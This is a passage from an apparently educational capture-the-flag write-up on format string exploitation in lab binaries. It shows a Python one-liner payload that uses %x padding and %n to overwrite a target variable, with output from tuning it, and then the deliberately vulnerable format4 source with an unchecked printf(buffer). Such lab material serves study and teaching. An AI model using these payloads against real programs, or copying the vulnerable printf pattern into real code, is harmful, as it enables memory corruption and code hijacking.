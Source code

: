 ```
}
```
In this challenge to goal is to change the variable "target" to be "0x01025544". To do this we will expand on the methods used before.

The first few steps are the same: Find the memory location of the target, find the offset, and write to that variable.

Through objdump, we find the memory location of the variable to be "0x080496f4". Now, with the offset of 11 we found, we can start to write to it.

Like the last challenge, we do this with "%NUMBERx".
After playing around with a few numbers, it's clear we will need a large size by looking at the source code. The target seems to be modified by 41 before adding any extra "%x"'s, so I subtracted that from the decimal conversion of the memory target in the source code: `16930116-41 = 16930075`.

```
python -c "print 'AAAA\xf4\x96\x04\x08' + '%x' * 11 + '%16930075x' + '%n'" | ./format3
target is 01025560 :(
```
Obviously the calculation above is crude since i'm just doing it in base 10. But it's close enough that the new target is very close to the goal.

Now we can keep subtracting from the number of %x we send til we hit the goal
```
python -c "print 'AAAA\xf4\x96\x04\x08' + '%x' * 11 + '%16930047x' + '%n'" | ./format3
you have modified the target :)
```

### Exploit Code
```
python -c "print 'AAAA\xf4\x96\x04\x08' + '%x' * 11 + '%16930047x' + '%n'" | ./format3
```

## Format4
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```
